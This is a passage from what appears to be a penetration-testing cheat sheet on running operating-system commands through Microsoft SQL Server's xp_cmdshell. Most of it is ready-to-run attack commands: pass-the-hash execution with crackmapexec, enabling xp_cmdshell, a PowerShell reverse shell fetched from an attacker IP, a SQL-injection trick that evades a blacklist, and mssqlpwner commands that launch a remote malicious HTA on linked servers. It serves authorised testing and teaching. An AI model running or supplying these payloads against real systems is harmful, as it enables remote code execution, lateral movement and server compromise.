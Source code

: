 ## Tricks

### Execute OS Commands

> [!CAUTION]
> Note that in order to be able to execute commands it's not only necessary to have **`xp_cmdshell`** **enabled**, but also have the **EXECUTE permission on the `xp_cmdshell` stored procedure**. You can get who (except sysadmins) can use **`xp_cmdshell`** with:
>
> ```sql
> Use master
> EXEC sp_helprotect 'xp_cmdshell'
> ```

```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)

```shell
# Executing custom assembly on the current server with windows authentication and executing hostname command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate
```
